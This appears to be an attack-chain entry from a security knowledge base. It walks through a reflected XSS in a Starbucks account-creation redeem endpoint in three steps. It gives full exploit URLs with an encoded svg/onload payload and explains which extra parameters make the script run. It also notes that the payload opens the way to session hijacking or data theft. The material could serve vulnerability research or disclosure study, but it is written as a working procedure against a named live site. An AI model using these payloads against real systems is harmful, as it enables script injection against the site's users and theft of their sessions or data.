

---
tags:
  - xss
  - reflected-xss
  - web
  - javascript
  - parameter-injection
type: attack_chain
tools:
  - '[[tools/Firefox]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Trigger-Reflected-XSS-in-Starbucks-Redeem-Endpoint]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:52:39.184Z'
description: >-
  A multi-step attack demonstrating reflected XSS in the Starbucks account
  creation redeem endpoint, where injecting a payload into xtl_amount_type
  requires non-empty values in xtl_coupon_code and xtl_amount to trigger
  execution.
skill_level: intermediate
impact_level: high
id: d2827ad0-7d43-4e3d-9a1e-fb37644d3772
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Reflected XSS Exploitation in Starbucks Redeem Endpoint via Complementary Parameters

Multi-stage attack chain demonstrating a reflected XSS vulnerability in the Starbucks account creation redeem endpoint. The attack exploits unsanitized reflection of URL parameters (xtl_amount, xtl_coupon_code, xtl_amount_type), where the payload in xtl_amount_type only executes when the other parameters are set to non-empty values, bypassing conditional rendering logic.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/Firefox]]

### Target Environment

- Web platform
- Access to public-facing Starbucks redeem endpoint
- No authentication required

### Initial Access Requirements

- Internet access
- Victim must click malicious link
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Access Initial Redeem Endpoint
procedure: [[procedures/Trigger-Reflected-XSS-in-Starbucks-Redeem-Endpoint]]

**Objective**: Navigate to the Starbucks redeem endpoint with sample parameters to observe normal behavior and prepare for manipulation.

**Instructions**: Use [[tools/Firefox]] to access the URL with initial parameters:

Navigate to: `https://www.starbucks.com/account/create/redeem/MCP131XSR?xtl_coupon_code=1&xtl_coupon_code=81431&xtl_amount=0.0&xtl_amount_type=DOLLAR_VALUE`

**Expected Output**: Page loads without errors, parameters reflected in response.

**Success Indicators**:
- Page renders successfully
- Parameters visible in HTML source

### Step 2: Inject XSS Payload into xtl_amount_type
procedure: [[procedures/Trigger-Reflected-XSS-in-Starbucks-Redeem-Endpoint]]

**Objective**: Modify the xtl_amount_type parameter to include a JavaScript payload, testing if it reflects without execution.

**Instructions**: In [[tools/Firefox]], edit the URL to set xtl_amount_type to the payload (URL-encoded): `xtl_amount_type=ayn%3C/script%3E%3Csvg/onload=alert(document%2edomain)%3E`

Full URL example: `https://www.starbucks.com/account/create/redeem/MCP131XSR?xtl_coupon_code=1&xtl_coupon_code=81431&xtl_amount=0.0&xtl_amount_type=ayn%3C/script%3E%3Csvg/onload=alert(document%2edomain)%3E`

**Expected Output**: Payload reflects in HTML but no alert triggers due to missing complementary parameters.

**Success Indicators**:
- Payload visible in page source
- No JavaScript execution

### Step 3: Enable Payload Execution with Complementary Parameters
procedure: [[procedures/Trigger-Reflected-XSS-in-Starbucks-Redeem-Endpoint]]

**Objective**: Set xtl_coupon_code and xtl_amount to non-empty values to activate conditional rendering, triggering the XSS payload.

**Instructions**: Update the URL in [[tools/Firefox]] to include arbitrary non-empty values: xtl_coupon_code=`hkjhkjh`, xtl_amount=`jhkjhj`, keeping the payload in xtl_amount_type.

Full URL: `https://www.starbucks.com/account/create/redeem/MCP131XSR?xtl_coupon_code=1&xtl_coupon_code=hkjhkjh&xtl_amount=jhkjhj&xtl_amount_type=ayn%3C/script%3E%3Csvg/onload=alert(document%2edomain)%3E`

**Expected Output**: Alert box pops up displaying the document domain, confirming XSS execution.

**Success Indicators**:
- Alert(document.domain) executes
- Arbitrary JS can now run in victim's context

## Attack Chain Summary

### Key Achievements

1. Identified complementary parameter dependency in reflection logic
2. Successfully injected and triggered XSS payload
3. Demonstrated potential for session hijacking or data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
